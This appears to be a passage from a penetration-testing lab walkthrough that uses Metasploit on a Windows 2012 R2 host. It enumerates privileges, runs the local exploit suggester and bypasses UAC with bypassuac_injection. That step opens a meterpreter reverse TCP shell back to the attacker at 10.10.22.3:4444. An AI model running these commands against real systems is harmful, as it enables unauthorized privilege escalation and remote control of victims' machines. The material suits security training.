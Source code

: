 `background`, `search win_privs`, `run post/windows/gather/win_privs`:
```
Current User
============

 Is Admin  Is System  Is In Local Admin Group  UAC Enabled  Foreground ID  UID
 --------  ---------  -----------------------  -----------  -------------  ---
 False     False      True                     True         1              VICTIM\admin

Windows Privileges
==================

 Name
 ----
 SeChangeNotifyPrivilege
 SeIncreaseWorkingSetPrivilege
 SeShutdownPrivilege
 SeTimeZonePrivilege
 SeUndockPrivilege
```

`background`, `search bypassuac`, `use exploit/windows/local/bypassuac_vbs`, `unset PAYLOAD`, `set PAYLOAD windows/X64/meterpreter/reverse_tcp`, `show options`, `set SESSION 1`, `show targets`, `exploit`:
```
[*] Started reverse TCP handler on 10.10.22.3:4444 
[-] Exploit aborted due to failure: not-vulnerable: Windows 2012 R2 (6.3 Build 9600). is not vulnerable.
[*] Exploit completed, but no session was created.
```

`search exploit_suggester`, `use post/multi/recon/local_exploit_suggester`, `show options`, `set SESSION 1`, `exploit`:
```
[*] 10.4.16.166 - Collecting local exploits for x64/windows...
[*] 10.4.16.166 - 30 exploit checks are being tried...
[+] 10.4.16.166 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.4.16.166 - exploit/windows/local/bypassuac_injection: The target appears to be vulnerable.
[+] 10.4.16.166 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[*] Post module execution completed
```

`search bypassuac`, `use exploit/windows/local/bypassuac_injection`, `unset PAYLOAD`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `show options`, `set SESSION 1`, `show targets`, `set TARGET 1`, `exploit`:
```
[*] Started reverse TCP handler on 10.10.22.3:4444 
[+] Windows 2012 R2 (6.3 Build 9600). may be vulnerable.
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Uploading the Payload DLL to the filesystem...
[*] Spawning process with Windows Publisher Certificate, to inject into...
[+] Successfully injected payload in to process: 2296
[*] Sending stage (200262 bytes) to 10.4.16.166
```
